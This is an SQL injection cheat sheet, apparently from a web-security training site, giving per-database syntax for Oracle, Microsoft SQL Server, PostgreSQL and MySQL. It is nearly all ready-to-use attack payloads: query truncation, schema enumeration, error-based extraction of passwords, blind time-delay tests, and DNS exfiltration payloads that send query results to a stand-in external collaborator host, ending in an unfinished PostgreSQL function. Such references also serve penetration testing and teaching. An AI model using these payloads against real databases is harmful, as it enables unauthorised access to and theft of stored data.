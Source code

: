 # SQL Injection Cheat Sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## String Concatenation

You can concatenate together multiple strings to make a single string.

- Oracle: `'foo'||'bar'`
- Microsoft: `'foo'+'bar'`
- PostgreSQL: `'foo'||'bar'`
- MySQL: `'foo' 'bar'` [Note the space between the two strings] or `CONCAT('foo','bar')`

## Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based.

- Oracle: `SUBSTR('foobar', 4, 2)`
- Microsoft: `SUBSTRING('foobar', 4, 2)`
- PostgreSQL: `SUBSTRING('foobar', 4, 2)`
- MySQL: `SUBSTRING('foobar', 4, 2)`

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input.

- Oracle: `--comment`
- Microsoft: `--comment` or `/*comment*/`
- PostgreSQL: `--comment` or `/*comment*/`
- MySQL: `#comment`, `-- comment` [Note the space after the double dash], or `/*comment*/`

## Database Version

You can query the database to determine its type and version.

- Oracle: `SELECT banner FROM v$version` or `SELECT version FROM v$instance`
- Microsoft: `SELECT @@version`
- PostgreSQL: `SELECT version()`
- MySQL: `SELECT @@version`

## Database Contents

You can list the tables that exist in the database and the columns that those tables contain.

- Oracle: `SELECT * FROM all_tables` or `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- Microsoft: `SELECT * FROM information_schema.tables` or `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL: `SELECT * FROM information_schema.tables` or `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- MySQL: `SELECT * FROM information_schema.tables` or `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

## Conditional Errors

You can test a single boolean condition and trigger a database error if the condition is true.

- Oracle: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
- Microsoft: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- PostgreSQL: `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
- MySQL: `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

## Extracting Data via Visible Error Messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

- Microsoft: `SELECT 'foo' WHERE 1 = (SELECT 'secret')`
- PostgreSQL: `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`
- MySQL: `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`

## Batched (or Stacked) Queries

You can use batched queries to execute multiple queries in succession.

- Oracle: Does not support batched queries.
- Microsoft: `QUERY-1-HERE; QUERY-2-HERE` or `QUERY-1-HERE QUERY-2-HERE`
- PostgreSQL: `QUERY-1-HERE; QUERY-2-HERE`
- MySQL: `QUERY-1-HERE; QUERY-2-HERE` 

> Note: With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time Delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

- Oracle: `dbms_pipe.receive_message(('a'),10)`
- Microsoft: `WAITFOR DELAY '0:0:10'`
- PostgreSQL: `SELECT pg_sleep(10)`
- MySQL: `SELECT SLEEP(10)`

## Conditional Time Delays

You can test a single boolean condition and trigger a time delay if the condition is true.

- Oracle: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Microsoft: `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- PostgreSQL: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- MySQL: `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`

## DNS Lookup

You can cause the database to perform a DNS lookup to an external domain.

- Oracle (XXE vulnerability): `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
- Oracle (Elevated privileges): `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`
- Microsoft: `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`
- PostgreSQL: `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`
- MySQL: `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')` or `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`

> Note: MySQL techniques typically work on Windows only.

## DNS Lookup with Data Exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query.

- Oracle: `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
- Microsoft: `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`
- PostgreSQL:

  ```sql
  create OR replace function f() returns void as $$
  declare c text;
  declare p text;
  begin
    SELECT into p (SELECT YOUR-QUERY-HERE);
    c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
    execute c;
  END;
  $$ language plpgsql security definer;
  SELECT f();

